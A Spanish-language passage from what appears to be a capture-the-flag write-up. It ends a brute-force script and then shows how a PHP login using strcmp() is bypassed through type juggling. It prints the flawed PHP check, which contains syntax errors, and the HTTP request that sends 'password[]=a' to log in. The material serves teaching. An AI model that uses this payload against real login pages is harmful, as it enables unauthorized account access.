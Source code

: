 ```python
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    bruteForce()
```

### Burlear el login panel con TypeJuggling {-}

Mas tarde en el video, el Tito nos muestra el codigo fuente de la pagina de login y se ve que en la comparativa del input **Password**, el
desarollador de la pagina utiliza un codigo php 

```php
if(isset($_POST['username'] == $USER){
    if(strcmp($_POST['password'], $PASS ) == 0){
        S_SESSION['username'] = $USER;
        header( 'Location: manage.php' );
    }
}
```

El problema aqui es que usado el comando 
```bash
 strcmp() 
```
 para el password permite al atacante de burlar esto con un cambio de tipo.

Si la request normal es como la siguiente y nos pone 
```bash
 incorrect password 
```


```bash
POST /login.php HTTP/1.1
Host: 10.10.10.10
User-Agent: ...
Cookie: PHPSESSID=o36osnz71uw900ln395jhs

username=admin&password=admin
```

cambiandole el payload de la siguiente manera nos loggea sin problema

```bash
POST /login.php HTTP/1.1
Host: 10.10.10.10
User-Agent: ...
Cookie: PHPSESSID=o36osnz71uw900ln395jhs

username=admin&password[]=a
```

El symbolo 
```bash
 [] 
```
 cambia el tipo de variable y el 
```bash
 strcmp() 
```
 lo acepta. 
